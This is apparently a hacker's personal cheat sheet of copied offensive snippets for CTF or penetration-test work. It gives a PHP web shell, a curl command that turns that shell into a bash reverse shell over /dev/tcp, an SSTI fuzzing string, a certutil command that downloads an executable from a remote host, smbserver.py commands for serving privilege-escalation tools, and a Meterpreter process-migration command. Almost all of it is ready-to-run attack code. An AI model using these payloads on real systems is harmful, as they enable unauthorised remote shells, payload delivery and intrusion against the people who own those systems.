 in here is things i have copy pasted since i have to look for them way too often, i take no credit for anything btw

### bash reverse shell from a php command thing

When you have one of these uploaded:

```php
<?php system($_REQUEST['cmd']); ?>
```

and need a revshell.

```bash
curl http://10.10.10.101/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
```

### SSTI Fuzzing string

stolen from hacktricks bc i use it often and it takes me forever to find it each time
```
${{<%[%'"}}%\
```

### Certutil File Download

stolen from ired.team. i forgor this one way too much aswell

```powershell
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

### smberver commands

```bash

# accept specific auth
smbserver.py -smb2support <SHARENAME> <LOCALPATH> -username <USERNAME> -password <PASSWORD>
smbsever.py -smb2support POSTEXP /home/tobeatelite/ctf/tools/privesc -username tbe -password tbe

# anon access
smbserver.py <SHARENAME> <LOCALPATH>
smbserver.py POSTEXP /home/tobeatelite/ctf/tools/privesc

```

Meterpreter auto migrate
```
meterpreter > run post/windows/manage/migrate
```
